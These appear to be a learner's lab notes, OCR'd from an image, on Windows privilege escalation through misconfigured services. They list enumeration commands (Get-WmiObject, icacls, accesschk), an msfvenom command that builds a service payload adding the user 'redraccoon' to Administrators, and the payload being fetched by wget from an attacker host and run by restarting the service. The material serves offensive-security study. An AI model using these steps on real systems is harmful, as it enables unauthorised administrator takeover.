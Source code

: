 ```


Get-WmiObject Win32_Service | Where-Object { $_.StartMode -eq 'Auto' -and $_.PathName -notlike 'C:\Windows\*' -and $_.PathName -notmatch '^\s*\".*\".*$' } | Select-Object Name, DisplayName, PathName, StartMode


permissions check
icacls c:\opt\ : all users have full privilege

accesschk : more readible
cd c:\sysinternalsSuite\ : sys binaries 
.\accesschk.exe -accepteula -q -d C:\opt 


Abyss.exe payload 
msfvenom -p windows/x64/exec CMD="net localgroup Administrators redraccoon /add" -f exe-service -o Abyss.exe : powershell commands simply execute

they are different structured or something
powershell.exe cmd.exe // service binary 
> we need to make service binary that abyss web server uses.
not exe 


python3 -m http.server 80 
wget http://10.8.0.129/Abyss.exe -O Abyss.exe 
wget http://10.8.0.129/Abyss.exe -outfile Abyss.exe 
: alias - Invoke-Webrequest


Restart-Service AbyssWebserver

net localgroup administrator 
net user redraccoon 
: included 



* misconfiguration service priv
specific users get mis priv. > 
service path replace or,
service binary itself replace
> payload execution 


what priv on these users
> 1. Service binPath(execute path) edit > as payload path 
2. Service Binary file replace : rarely use in practice 



cd c:\sysinternalsSuite\ 
accesschk 
: most of the hosts don't have this
> download from google  : windows sysinternals download  = utility tools : sysadmins use much, attackers too  

.\accesschk.exe -accepteula -ucqv redraccoon AbyssWebserver : what kind of priv does this user have? 
RW, allaccess

```